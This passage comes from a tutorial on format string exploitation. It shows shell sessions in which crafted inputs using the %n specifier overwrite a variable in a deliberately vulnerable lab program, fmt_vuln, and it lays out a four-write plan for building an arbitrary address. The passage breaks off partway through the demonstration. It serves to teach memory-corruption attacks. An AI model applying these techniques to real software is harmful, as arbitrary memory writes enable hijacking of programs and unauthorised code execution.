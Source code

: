As this shows, the `test_val` variable can indeed be overwritten using the `%n` format parameter.
The resulting value in the test variable **depends on the number of bytes written before** the `%n`.

```bash
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc0
[*] test_val @ 0x08049794 = 21 0x00000015

reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%100x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc
0
[*] test_val @ 0x08049794 = 120 0x00000078

reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%180x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc
0
[*] test_val @ 0x08049794 = 200 0x000000c8

reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%400x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc
0
[*] test_val @ 0x08049794 = 420 0x000001a4
reader@hacking:~/booksrc $
```

By manipulating the field-width option of one of the format parameters before the `%n`, a certain number of blank spaces can be inserted, resulting in the output having some blank lines.

Looking at the hexadecimal representation of the `test_val` value, it’s apparent that the least significant byte can be controlled fairly well. (Remember that the least significant byte is actually located in the first byte of the four-byte word of memory.) This detail can be used to write an entire address.

If four writes are done at sequential memory addresses, the least significant byte can be written to each byte of a four-byte word:

```
Memory 							94 95 96 97
First write to 0x08049794 		AA 00 00 00
Second write to 0x08049795 		   BB 00 00 00
Third write to 0x08049796 		      CC 00 00 00
Fourth write to 0x08049797 				 DD 00 00 00
Result AA BB CC DD
```

```bash
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%8x%n
The right way to print user-controlled input:
??%x%x%8x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc 0
[*] test_val @ 0x08049794 = 28 0x0000001c
reader@hacking:~/booksrc $ gdb -q
(gdb) p 0xaa - 28 + 8
$1 = 150
(gdb) quit
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%150x%n
The right way to print user-controlled input:
??%x%x%150x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc
0
```